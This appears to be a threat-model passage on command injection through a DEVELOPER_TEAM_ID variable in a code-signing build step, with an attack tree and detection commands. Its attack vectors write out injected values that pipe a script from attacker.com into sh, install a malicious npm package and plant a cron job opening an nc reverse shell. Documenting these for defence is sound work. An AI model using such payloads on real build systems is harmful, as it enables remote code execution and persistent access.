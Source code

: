 ### Potential Attack Vectors

1. **Build System Compromise**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && curl http://attacker.com/backdoor.sh | sh"
   ```

2. **Supply Chain Attack**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && npm install malicious-package"
   ```

3. **Persistence Mechanism**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && echo '*/5 * * * * nc -e /bin/sh attacker.com 4444' >> /tmp/cron"
   ```

## Advanced Threat Modeling

### Attack Tree
```mermaid
graph TD
    A[Code Sign Exploit] --> B[Initial Access]
    A --> C[Privilege Escalation]
    A --> D[Persistence]
    
    B --> B1[Environment Variables]
    B --> B2[Malicious Config]
    
    C --> C1[Root Access]
    C --> C2[Credential Theft]
    
    D --> D1[Cron Jobs]
    D --> D2[SSH Backdoors]
```

## Forensic Artifacts

### Detection Signatures

1. **Process Monitoring**:
   ```bash
   ps aux | grep -E 'node.*sh -c'
   ```

2. **Log Analysis**:
   ```bash
   grep -E 'exec(Sync|File).*codesign' build.log
   ```

3. **Filesystem Indicators**:
   ```bash
   find /tmp -name "*headlamp*" -mtime -1
   ```
